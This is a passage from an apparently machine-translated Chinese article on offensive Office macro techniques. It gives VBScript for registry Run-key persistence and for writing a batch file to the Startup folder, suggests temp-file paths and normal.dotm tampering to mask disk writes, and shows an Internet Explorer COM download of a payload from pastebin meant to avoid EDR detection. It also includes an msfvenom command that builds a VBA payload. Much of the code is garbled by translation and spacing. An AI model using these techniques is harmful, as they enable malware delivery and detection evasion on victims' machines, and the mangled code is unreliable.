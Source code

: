 使用下面的 VBScript 代码，您可以使用注册表。

> set wsh shell = CreateObject(" WScript。shell ")
> wshshell . regwrite " HKCU \软件\微软\ Windows \ current version \ Run \ key "，" value "，" REG_SZ "

同样，您可以存储数据，在工作负载之间传输数据，并直接从宏中修改数据。

# 4.创建文件

尽管如此，不写入磁盘，攻击者的能力是非常有限的。您可以将必要的数据写入磁盘上的特定路径，如下所示。

> Path = CreateObject ("WScript。壳”)。SpecialFolders ("Startup")
> 设置 objFSO = CreateObject ("Scripting。FileSystemObject")
> 设置 objFile = objFSO。CreateTextFile(路径& "\ SCRIPT.bat "，True)
> objFile。写" notepad . exe "&vbCrLf
> objFile。关闭

一旦磁盘被写入，那么您需要尽可能地屏蔽这个操作。您可以通过使用特殊的文件路径来使分析变得复杂，因为 WinWord 进程写入临时 tmp 文件并没有什么不正常的。例如，您可以沿着以下路径之一进行录制:

> c:\ Users \<user>\ AppData \ Local \ Microsoft \ Windows \ inet cache \ Content。word \ ~ WRF { AE 7 bbf 2 f-B65D-4bf 4–9 fad-a 779 AEC 41 a 02 }。tmp
> C: \ Users \ <用户>\ AppData \ Local \ Temp \ CVR 497 f . tmp
> C:\ Users \<用户>\ AppData \ Local \ Microsoft \ Windows \ Caches \ { afbf 9 f1 a-8ee 8–4c 77-AF34-C 647 e 37 ca 0d 9 } . 1 . verx 00000000000016 . db</user>

但是您可以更进一步，更改 Office 模板:

> c:\ Users \<user>\ AppData \ Roaming \ Microsoft \ Templates \ normal . dotm</user>

# 5.加载数据

VBScript 可用于通过网络加载各种数据。但是，如果您使用 XMLHTTP 库或 URLDownloadToFIleA API 函数，WinWord 进程将启动一个网络连接(显然不是到 Microsoft 站点)，该网络连接将标记有 SOC 的 EDR。这可以通过使用 Internet Explorer COM 来避免。

> set ie = CreateObject(" internet explorer。
> )【应用】ie。导航"[https://pastebin.com/raw/payload](https://pastebin.com/raw/payload)"
> State = 0
> 直到 State = 4
> DoEvents
> State = ie . ready State
> Loop
> Dim payload:payload = ie。Document.Body.innerHTML

使用这种方法将导致从**svchost.exe**进程调用浏览器来加载数据。

# 6.嵌入宏中

也可以将负载或文件插入到宏本身甚至文档中，以便不通过网络下载。同一个 Metasploit 框架能够创建带有内置负载的宏。

> MSF venom-p generic/custom PAYLOADFILE = payload _ file-a x64-platform windows-f VBA-exe

但问题在于，新进程将从 WinWord 进程下启动。这很容易解决，但是如何解决——我们已经在上面讨论过了。
